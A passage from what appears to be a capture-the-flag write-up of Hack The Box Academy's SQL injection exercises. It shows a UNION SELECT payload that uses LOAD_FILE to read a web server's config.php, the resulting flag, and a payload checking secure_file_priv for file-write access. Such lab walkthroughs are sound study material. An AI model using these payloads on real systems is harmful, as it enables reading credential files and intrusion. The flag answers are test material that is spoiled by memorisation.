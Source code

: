 Payload: `cn' UNION SELECT 1, LOAD_FILE("/var/www/html/config.php"), 3, 4-- -`

[![](https://github.com/DjikstraCS/CTF-Write-Ups/raw/main/Hack%20The%20box/Academy/attachments/Pasted%20image%2020220602123504.png)](https://github.com/DjikstraCS/CTF-Write-Ups/blob/main/Hack%20The%20box/Academy/attachments/Pasted%20image%2020220602123504.png)

**Answer:** `dB_pAssw0rd_iS_flag!`

---

## [](https://github.com/DjikstraCS/CTF-Write-Ups/blob/main/Hack%20The%20box/Academy/SQL%20Injection%20Fundamentals.md#writing-files)

## Writing Files

### [](https://github.com/DjikstraCS/CTF-Write-Ups/blob/main/Hack%20The%20box/Academy/SQL%20Injection%20Fundamentals.md#question-10)

### Question:

[![](https://github.com/DjikstraCS/CTF-Write-Ups/raw/main/Hack%20The%20box/Academy/attachments/Pasted%20image%2020220512182945.png)](https://github.com/DjikstraCS/CTF-Write-Ups/blob/main/Hack%20The%20box/Academy/attachments/Pasted%20image%2020220512182945.png)

_Hint: It's one directory away from you!_

First, we need to confirm that we have write access to the system.

Payload: `cn' UNION SELECT 1, variable_name, variable_value, 4, 5 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -`

[![](https://github.com/DjikstraCS/CTF-Write-Ups/raw/main/Hack%20The%20box/Academy/attachments/Pasted%20image%2020220602125846.png)](https://github.com/DjikstraCS/CTF-Write-Ups/blob/main/Hack%20The%20box/Academy/attachments/Pasted%20image%2020220602125846.png)

